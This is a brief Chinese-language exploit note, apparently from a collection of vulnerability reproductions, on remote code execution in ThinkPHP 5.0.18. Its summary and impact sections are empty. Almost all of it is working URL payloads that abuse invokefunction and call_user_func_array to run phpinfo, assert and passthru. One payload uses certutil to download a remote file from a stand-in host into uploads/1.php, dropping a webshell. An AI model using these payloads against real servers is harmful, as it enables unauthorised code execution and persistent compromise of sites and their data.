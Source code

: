 # Thinkphp 5.0.18

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

1、windows


```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1

http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo()
```

2、使用certutil


```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=passthru&vars[1][0]=cmd /c certutil -urlcache -split -f https://www.hack.com/xxx.js uploads/1.php
```

由于根目录没写权限，所以写到uploads